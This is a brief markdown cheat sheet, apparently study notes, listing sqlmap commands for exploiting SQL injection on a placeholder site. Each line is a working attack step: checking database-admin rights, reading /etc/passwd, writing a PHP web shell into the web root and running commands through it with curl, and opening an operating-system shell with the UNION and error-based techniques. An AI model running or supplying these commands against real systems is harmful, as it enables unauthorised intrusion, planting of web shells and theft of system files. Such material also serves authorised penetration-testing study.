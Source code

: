 #SQL_Injection 

---

- To check if our user is DB admin we use the following command:
```bash
[!bash!]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```


- If the above command return true, we can read/write a file using the following commands:
```bash
[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

```bash
[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

- We can then exploit the above shell using the following command:
```bash
[!bash!]$ curl http://www.example.com/shell.php?cmd=ls+-la
```

- To check if we can get a shell in the remote target, we use the following command:
```bash
[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```
**Note**: The above command using the **UNION** technique to test for exploitation

- To use the **error-based SQL injection** we use the following command:
```bash
[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```


